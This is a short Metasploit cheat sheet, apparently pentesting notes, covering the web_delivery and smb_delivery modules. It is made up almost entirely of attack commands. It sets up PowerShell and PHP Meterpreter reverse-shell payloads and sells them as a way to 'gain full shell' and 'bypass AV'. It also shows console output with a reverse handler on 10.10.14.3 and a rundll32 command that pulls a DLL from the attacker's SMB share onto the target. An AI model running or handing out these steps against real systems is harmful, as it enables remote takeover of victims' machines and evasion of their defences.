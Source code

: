 # Web Delivery Exploit
Creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine.
Used to *gain full shell* & *bypass AV*!

```sh
msf6 > use exploit/multi/script/web_delivery

# For Powershell
msf6 > set TARGET 2
msf6 > set PAYLOAD windows/meterpreter/reverse_http

# For PHP
msf6> set TARGET 1
msf6> set PAYLOAD php/meterpreter/reverse_tcp
```


# SMB Exploit
```sh
msf6> search smb_delivery
msf6> use 0

msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```